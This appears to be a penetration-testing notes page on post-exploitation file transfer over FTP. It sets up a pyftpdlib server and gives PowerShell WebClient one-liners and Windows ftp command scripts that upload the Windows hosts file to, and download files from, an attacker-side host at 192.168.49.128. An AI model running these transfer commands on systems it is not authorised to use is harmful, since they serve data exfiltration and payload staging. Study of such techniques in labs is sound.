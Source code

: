 
```bash
sudo pip3 install pyftpdlib
```

```bash
sudo python3 -m pyftpdlib --port 21
```
#### Uploading Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Downloading Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
#### Create a Command File for the FTP Client and Download the Target File

```cmd-session
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

```ftp
open 192.168.49.128
Log in with USER and PASS first.
USER anonymous

GET file.txt
bye
```

```cmd-session
more file.txt
This is a test file
```

#### Create a Command File for the FTP Client to Upload a File

```cmd-session
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

```ftp
open 192.168.49.128
USER anonymous
PUT c:\windows\system32\drivers\etc\hosts
bye
```
# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #FTP-File-Transfers